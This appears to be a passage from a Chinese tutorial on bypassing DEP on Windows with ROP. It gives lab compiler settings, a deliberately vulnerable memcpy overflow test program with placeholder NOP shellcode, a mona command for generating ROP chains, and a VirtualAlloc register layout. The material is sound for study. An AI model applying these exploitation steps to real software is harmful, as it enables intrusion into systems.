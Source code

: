 - 关闭GS
- 关闭优化
- 关闭SEH
- 打开DEP
- 关闭ASLR
- 禁用c++异常
- 禁用内部函数

**注：**

详细配置方法在上篇文章有说明

同样是测试memcpy的缓冲器溢出，测试POC如下：

```
unsigned int shellcode[]=
{     
      0x90909090,0x90909090,0x90909090,0x90909090,
      0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,
      0x41414141,  
      0x41414141
};
void test()
{
  char buffer[48];  
  printf("3\n");
  memcpy(buffer,shellcode,sizeof(shellcode));
}
int main()
{
  printf("1\n");
  test();
  return 0;
}
```

编译成exe，使用Immunity Debugger打开

使用mona插件自动生成rop链，输入：

`!mona rop -m *.dll -cp nonull`

查看rop_chains.txt，会列出可用来关闭DEP的ROP链

选择VirtualAlloc函数，详情如下：

```
Register setup for VirtualAlloc() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = flProtect (0x40)
 EDX = flAllocationType (0x1000)
 EBX = dwSize
 ESP = lpAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualAlloc()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualAlloc()
 ECX = flProtect (0x40)
 EDX = flAllocationType (0x1000)
 EBX = dwSize
 ESP = lpAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
```